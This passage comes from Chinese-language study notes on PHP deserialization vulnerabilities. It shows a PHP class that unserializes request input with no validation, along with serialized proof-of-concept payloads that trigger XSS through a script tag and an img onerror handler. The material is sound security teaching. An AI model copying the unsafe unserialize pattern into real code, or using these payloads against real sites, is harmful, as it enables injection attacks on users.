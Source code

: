 这个时候我们仔细思考，发现dog.txt可控，修改dog.txt:

```php
O:3:"Dog":1:{s:4:"name";s:26:"<script>alert(1);</script>";}
```

然后再次执行：

![img](./%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%AC%94%E8%AE%B0.assets/1649060752247-611e24fa-ad1d-4365-9d62-884ee2afc266.png)

发现出现XSS。

### demo02

准备如下代码：

```php
<?php
header("content-type:text/html;charset=utf-8");
class Cat
{
  public $name = "波斯猫";
  public function __wakeup(){
    echo $this->name;
  }
}

// 接收参数
$data = $_REQUEST['data'];
// 反序列化
unserialize($data);
```

发现参数可控，构造poc:

```php
O:3:"Cat":1:{s:4:"name";s:32:"<img src='1' onerror='alert(1)'>";}
```

直接GET传递参数得到结果：

![img](./%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%AC%94%E8%AE%B0.assets/1649062046253-27c9245b-789e-4567-b4ec-0155439788a0.png)
